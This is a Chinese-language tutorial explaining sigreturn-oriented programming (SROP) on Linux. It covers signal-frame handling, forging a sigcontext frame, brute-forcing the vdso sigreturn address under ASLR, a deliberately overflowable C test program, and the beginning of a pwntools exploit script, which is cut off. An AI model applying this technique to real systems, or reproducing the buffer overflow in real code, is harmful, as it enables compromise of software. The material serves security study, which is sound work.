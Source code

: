首先，当由中断或异常产生时，会发出一个信号，然后会送给相关进程，此时系统切换到内核模式。再次返回到用户模式前，内核会执行do_signal()函数，最终会调用setup_frame()函数来设置用户栈。setup_frame函数主要工作是往用户栈中push一个保存有全部寄存器的值和其它重要信息的数据结构(各架构各不相同)，另外还会push一个signal function的返回地址——sigruturn()系统调用的地址。

当这些准备工作完成后，就开始执行由用户指定的signal function了。当执行完后，因为返回地址被设置为sigreturn()系统调用的地址了，所以此时系统又会陷入内核执行sigreturn()系统调用。此系统调用的主要工作是用原先push到栈中的内容来恢复寄存器的值和相关内容。当系统调用结束后，程序恢复执行。

***Exploit***

伪造sigcontext结构，push到栈中。伪造过程中需要将eax，ebx，ecx等参数寄存器设置为相关值，eip设置为syscall的地址。并且需要注意的是esp，ebp和es，gs等段寄存器不可直接设置为0，经过个人测试，这样不会成功。

然后将返回地址设置为sigreturn的地址(或者相关gadget)。

最后当sigreturn系统调用执行完后，就直接执行你的系统调用了

***Point***

利用过程比较麻烦的一点是找sigreturn的地址(或gadget)。对于x86来说，vdso(vitualdynamic sharedobject)会有sigreturn的地址，而且vdso的地址可以很容易爆破得到。因为即使对开了ASLR的linux来说，其地址也只有一个字节是随机的。

```
gdb-peda$x/3i 0xf7fdb411
	0xf7fdb411<__kernel_sigreturn+1>:   mov    eax,0x77
	0xf7fdb416<__kernel_sigreturn+6>:   int    0x80
	0xf7fdb418<__kernel_sigreturn+8>:   nop
```

但是对x64来说，爆破vdso就比较难了。原来只有11bit是随记的，但我在我的linux上测试好像有22位是随机的了，爆破也就几小时而已(个人亲测)，还是能爆出来的。关于64位的爆破，可参考Return to VDSO using ELF Auxiliary Vectors。

***Example***

```c
#include <stdio.h>
#include <unistd.h>
char buf[10] = "/bin/sh\x00";
int main()
{
    char s[0x100];
    puts("input something you want: ");
    read(0, s, 0x400);
    return 0;
}
```

***Exp***

```python
from pwn import *
import random

binsh_addr = 0x804a024
bss_addr = 0x804a02e
vdso_range = range(0xf7700000, 0xf7800000, 0x1000)

def main():
    global p
    debug = 1
    if debug:
        #context.level_log = "debug"
        context.arch = "i386"
        p = process('./srop_test')
    else:
        pass
    
    global vdso_addr
    vdso_addr = random.choice(vdso_range)
    payload = 'a' * 0x10c
    frame = SigreturnFrame(kernel = "i386")
```